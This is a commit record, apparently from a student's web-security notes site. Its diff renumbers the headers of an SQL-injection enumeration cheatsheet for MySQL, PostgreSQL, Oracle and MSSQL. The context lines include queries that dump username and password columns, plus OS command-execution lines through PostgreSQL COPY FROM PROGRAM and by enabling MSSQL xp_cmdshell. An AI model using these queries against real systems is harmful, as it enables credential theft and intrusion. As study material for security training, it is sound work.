

Before and after one commit to GaelleBriet/web200-notes, an MkDocs documentation site: the page built from docs/vulns/sql/11-sql-enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 1441 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update section headers in SQL enumeration cheatsheet for improved clarity and organization

````diff
--- a/docs/vulns/sql/11-sql-enumeration.md
+++ b/docs/vulns/sql/11-sql-enumeration.md
@@ -2,49 +2,49 @@
 
 ## 1. MySQL (Reference)
 
-## 1.1 List all Databases
+### 1.1 List all Databases
 
 ```sql
 SELECT schema_name FROM information_schema.schemata;
 ```
 
-**List all tables in the current DB:**
+### 1.2 List all tables in the current DB
 
 ```sql
 SELECT table_name FROM information_schema.tables WHERE table_schema=database();
 ```
 
-**List all tables from a different DB:**
+### 1.3 List all tables from a different DB
 
 ```sql
 SELECT table_name FROM information_schema.tables WHERE table_schema='app';
 ```
 
-**List all columns in the current DB:**
+### 1.4 List all columns in the current DB
 
 ```sql
 SELECT column_name FROM information_schema.columns WHERE table_name='test_table';
 ```
 
-**List all columns in a different DB:**
+### 1.5 List all columns in a different DB
 
 ```sql
 SELECT column_name FROM information_schema.columns WHERE table_schema='app' AND table_name='test_table';
 ```
 
-**Extract records from chosen columns (current DB):**
+### 1.6 Extract records from chosen columns (current DB)
 
 ```sql
 SELECT GROUP_CONCAT(user,'@@',passwd) FROM test_table;
 ```
 
-**Extract records from a different DB:**
+### 1.7 Extract records from a different DB
 
 ```sql
 SELECT GROUP_CONCAT(user,'@@',passwd) FROM app.test_table;
 ```
 
-**MySQL Specific - Useful functions:**
+### 1.8 MySQL Specific - Useful functions
 
 ```sql
 -- Current user
@@ -68,9 +68,9 @@ COPY cmd_output FROM PROGRAM 'id';
 ```
 ---
 
-## PostgreSQL
+## 2. PostgreSQL
 
-**List all Databases:**
+### 2.1 List all Databases
 
 ```sql
 SELECT datname FROM pg_database;
@@ -78,7 +78,7 @@ SELECT datname FROM pg_database;
 SELECT schema_name FROM information_schema.schemata;
 ```
 
-**List all tables in the current DB/schema:**
+### 2.2 List all tables in the current DB/schema
 
 ```sql
 SELECT table_name FROM information_schema.tables WHERE table_schema='public';
@@ -86,25 +86,25 @@ SELECT table_name FROM information_schema.tables WHERE table_schema='public';
 SELECT tablename FROM pg_tables WHERE schemaname='public';
 ```
 
-**List all tables from a different schema:**
+### 2.3 List all tables from a different schema
 
 ```sql
 SELECT table_name FROM information_schema.tables WHERE table_schema='app';
 ```
 
-**List all columns in a table:**
+### 2.4 List all columns in a table
 
 ```sql
 SELECT column_name FROM information_schema.columns WHERE table_name='test_table';
 ```
 
-**List all columns in a different schema:**
+### 2.5 List all columns in a different schema
 
 ```sql
 SELECT column_name FROM information_schema.columns WHERE table_schema='app' AND table_name='test_table';
 ```
 
-**Extract records from chosen columns (current schema):**
+### 2.6 Extract records from chosen columns (current schema)
 
 ```sql
 SELECT STRING_AGG(user || '@@' || passwd, ',') FROM test_table;
@@ -112,13 +112,13 @@ SELECT STRING_AGG(user || '@@' || passwd, ',') FROM test_table;
 SELECT user || '@@' || passwd FROM test_table;
 ```
 
-**Extract records from a different schema:**
+### 2.7 Extract records from a different schema
 
 ```sql
 SELECT STRING_AGG(user || '@@' || passwd, ',') FROM app.test_table;
 ```
 
-**PostgreSQL Specific - Useful functions:**
+### 2.8 PostgreSQL Specific - Useful functions
 
 ```sql
 -- Current user
@@ -143,9 +143,9 @@ COPY cmd_output FROM PROGRAM 'id';
 
 ---
 
-## Oracle
+## 3. Oracle
 
-**List all Databases (Tablespaces):**
+### 3.1 List all Databases (Tablespaces)
 
 ```sql
 SELECT tablespace_name FROM dba_tablespaces;
@@ -153,7 +153,7 @@ SELECT tablespace_name FROM dba_tablespaces;
 SELECT username FROM all_users;
 ```
 
-**List all tables accessible to current user:**
+### 3.2 List all tables accessible to current user
 
 ```sql
 SELECT table_name FROM all_tables WHERE owner=USER;
@@ -161,25 +161,25 @@ SELECT table_name FROM all_tables WHERE owner=USER;
 SELECT table_name FROM all_tables;
 ```
 
-**List all tables from a different schema:**
+### 3.3 List all tables from a different schema
 
 ```sql
 SELECT table_name FROM all_tables WHERE owner='APP';
 ```
 
-**List all columns in a table:**
+### 3.4 List all columns in a table
 
 ```sql
 SELECT column_name FROM all_tab_columns WHERE table_name='TEST_TABLE';
 ```
 
-**List all columns in a different schema:**
+### 3.5 List all columns in a different schema
 
 ```sql
 SELECT column_name FROM all_tab_columns WHERE owner='APP' AND table_name='TEST_TABLE';
 ```
 
-**Extract records from chosen columns (current schema):**
+### 3.6 Extract records from chosen columns (current schema)
 
 ```sql
 SELECT LISTAGG(username || '@@' || passwd, ',') WITHIN GROUP (ORDER BY username) FROM test_table;
@@ -187,13 +187,13 @@ SELECT LISTAGG(username || '@@' || passwd, ',') WITHIN GROUP (ORDER BY username)
 SELECT username || '@@' || passwd FROM test_table;
 ```
 
-**Extract records from a different schema:**
+### 3.7 Extract records from a different schema
 
 ```sql
 SELECT username || '@@' || passwd FROM app.test_table;
 ```
 
-**Oracle Specific - Useful queries:**
+### 3.8 Oracle Specific - Useful queries
 
 ```sql
 -- Current user
@@ -227,9 +227,9 @@ SELECT 'test' FROM dual;
 
 ---
 
-## Microsoft SQL Server (MSSQL)
+## 4. Microsoft SQL Server (MSSQL)
 
-**List all Databases:**
+### 4.1 List all Databases
 
 ```sql
 SELECT name FROM master.sys.databases;
@@ -239,7 +239,7 @@ SELECT name FROM sys.databases;
 EXEC sp_databases;
 ```
 
-**List all tables in the current DB:**
+### 4.2 List all tables in the current DB
 
 ```sql
 SELECT table_name FROM information_schema.tables WHERE table_type='BASE TABLE';
@@ -247,7 +247,7 @@ SELECT table_name FROM information_schema.tables WHERE table_type='BASE TABLE';
 SELECT name FROM sys.tables;
 ```
 
-**List all tables from a different DB:**
+### 4.3 List all tables from a different DB
 
 ```sql
 SELECT table_name FROM app.information_schema.tables WHERE table_type='BASE TABLE';
@@ -255,7 +255,7 @@ SELECT table_name FROM app.information_schema.tables WHERE table_type='BASE TABL
 SELECT name FROM app.sys.tables;
 ```
 
-**List all columns in the current DB:**
+### 4.4 List all columns in the current DB
 
 ```sql
 SELECT column_name FROM information_schema.columns WHERE table_name='test_table';
@@ -263,13 +263,13 @@ SELECT column_name FROM information_schema.columns WHERE table_name='test_table'
 SELECT name FROM sys.columns WHERE object_id=OBJECT_ID('test_table');
 ```
 
-**List all columns in a different DB:**
+### 4.5 List all columns in a different DB
 
 ```sql
 SELECT column_name FROM app.information_schema.columns WHERE table_name='test_table';
 ```
 
-**Extract records from chosen columns (current DB):**
+### 4.6 Extract records from chosen columns (current DB)
 
 ```sql
 SELECT STRING_AGG(username + '@@' + passwd, ',') FROM test_table;
@@ -279,13 +279,13 @@ SELECT username + '@@' + passwd FROM test_table;
 SELECT STUFF((SELECT ',' + username + '@@' + passwd FROM test_table FOR XML PATH('')), 1, 1, '');
 ```
 
-**Extract records from a different DB:**
+### 4.7 Extract records from a different DB
 
 ```sql
 SELECT username + '@@' + passwd FROM app.dbo.test_table;
 ```
 
-**MSSQL Specific - Useful queries:**
+### 4.8 MSSQL Specific - Useful queries
 
 ```sql
 -- Current user
@@ -323,7 +323,7 @@ EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  select * from app.sys.tables;
 ```
 
-**MSSQL - Stacked Queries:**
+### 4.9 MSSQL - Stacked Queries
 
 ```sql
 -- MSSQL supporte les stacked queries (;)
@@ -336,7 +336,7 @@ SELECT 1; SELECT 2;
 ---
 ---
 
-## Quick Reference Table
+## 5. Quick Reference Table
 
 | Action                     | MySQL                          | PostgreSQL             | Oracle               | MSSQL                   |
 | -------------------------- | ------------------------------ | ---------------------- | -------------------- | ----------------------- |
@@ -354,7 +354,7 @@ SELECT 1; SELECT 2;
 ---
 ---
 
-## UNION-Based Injection - Column Count Discovery
+## 6. UNION-Based Injection - Column Count Discovery
 
 **MySQL / PostgreSQL / MSSQL:**
 
@@ -380,7 +380,7 @@ SELECT 1; SELECT 2;
 
 ---
 
-## Error-Based Injection Payloads
+## 7. Error-Based Injection Payloads
 
 **MySQL:**
 
@@ -411,7 +411,7 @@ SELECT 1; SELECT 2;
 
 ---
 
-## Time-Based Blind Injection
+## 8. Time-Based Blind Injection
 
 **MySQL:**
 
````
